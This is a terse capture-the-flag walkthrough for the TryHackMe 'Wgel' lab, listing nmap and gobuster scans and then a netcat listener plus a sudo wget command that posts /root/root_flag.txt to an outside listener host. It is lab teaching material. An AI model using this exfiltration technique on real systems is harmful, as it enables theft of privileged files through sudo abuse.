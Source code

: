 #	Tryhackme - Wgel CTF 


```
export IP=10.10.255.246
```

##  Walkthrough by
```
Shaswata Saha
12-07-2023
12:37
```

##  Steps:
1.  nmap scan

2.  gobuster scan

3.  We get the root
```bash
nc -lnvp 9999
```
```bash
sudo wget --post-file=/root/root_flag.txt http://10.17.28.202:9999
```
